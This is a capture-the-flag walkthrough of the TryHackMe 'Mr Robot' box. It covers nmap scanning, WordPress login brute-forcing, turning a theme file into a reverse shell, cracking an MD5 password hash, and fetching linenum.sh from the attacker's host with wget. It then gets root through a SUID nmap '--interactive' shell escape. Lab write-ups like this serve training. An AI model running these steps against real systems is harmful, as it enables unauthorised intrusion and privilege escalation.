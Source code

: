 # Mr Robot CTF Try Hack Me (10.10.171.29)


> scan with `nmap -sC -sV 10.10.171.29 > nmap_log`
```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-12 09:49 WIB
Nmap scan report for 10.10.171.29
Host is up (0.37s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 356.67 seconds
```

> check file robots.txt `http://10.10.171.29/robots.txt`
```js
User-agent: *
fsocity.dic
key-1-of-3.txt
```
> open `http://10.10.171.29/key-1-of-3.txt` got the first key `0xxx0xxxaxxx1xxxdxxx4xxxbxx7xxx9`
> download fsocity.dic `http://10.10.171.29/fsocity.dic`

> using gobuster and get wordpress login `wp-login`
> create Brute Login to `wp-login.php` using python and dictionary file
> after got username and password login to `wp-login`
> edit file on dashboard `archive.php` to reverse shell and access `http://10.10.171.29/wp-content/themes/twentyfifteen/archive.php`
> after got the shell look at `/home/robot`
```bash
daemon@linux:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt 
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
```

> crack the `c3fcd3d76192e4007dfb496cca67e13b` result is `axxxexxxixxxmxxxqxxxuxxxyz`
> using that password go to robot using su

```bash
daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ cat key-2-of-3.txt 
8xxx7xxx6xxxfxxx9xxxexxxexxxfxxx
```

> open our connection using `python -m http.server 81`  in my case i open port 81 and my ip `10.4.37.160:81` and cd to `/dev/shm`

```bash
robot@linux:/dev/shm$ wget http://10.4.37.160:81/linenum.sh
wget http://10.4.37.160:81/linenum.sh
--2023-10-12 04:32:43--  http://10.4.37.160:81/linenum.sh
Connecting to 10.4.37.160:81... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [application/x-sh]
Saving to: ‘linenum.sh’

100%[======================================>] 46,631      54.4KB/s   in 0.8s   

2023-10-12 04:32:44 (54.4 KB/s) - ‘linenum.sh’ saved [46631/46631]

robot@linux:/dev/shm$ chmod +x linenum.sh
chmod +x linenum.sh

robot@linux:/dev/shm$ ./linenum.sh
./linenum.sh

.... a lot of bunch output from linenum 
....
[+] Possibly interesting SUID files:
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
....
.... a lot of bunch output from linenum 
```

> use that interesting SUID files to check on GtfoBin and use that to privesc

# Priviledge Escalation
```sh
robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
firstboot_done	key-3-of-3.txt
# ls -la
ls -la
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
# cat firstboot_done
cat firstboot_done
# cat key-3-of-3.txt
cat key-3-of-3.txt
0xxx7xxxfxxx3xxx1xxx6xxx1xxxbxxx
```

> and ... yay!  we solved that challl....